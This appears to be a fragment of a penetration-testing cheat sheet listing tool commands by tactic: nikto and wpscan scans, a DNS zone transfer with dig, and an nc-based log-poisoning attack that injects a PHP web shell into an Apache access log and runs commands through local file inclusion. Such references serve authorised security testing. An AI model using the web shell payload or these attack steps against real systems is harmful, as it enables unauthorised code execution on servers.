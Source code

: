 ## scan website for vulnerabilities
- `nikto -C all -h http://target-ip`

---

# wpscan
- service: http
- tactics: enumeration

## scan wordpress installation for vulnerabilities
- `wpscan --url http://target-ip/ --enumerate p`

---

# nc
- service: all
- tactics: enumeration
- tactics: inital_access

## logfile injection
```
nc target-ip target-port
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: <IP>
Connection: close
```
        
### Afterwards include the it via lfi
- `?lfi_file=/var/log/apache2/access.log&cmd=<command>`

---

# dig
- service: dns
- tactics: enumeration

## full zone transfer
- `dig -t AXFR target-dns-ip`

---

# host
- service: dns
- tactics: enumeration
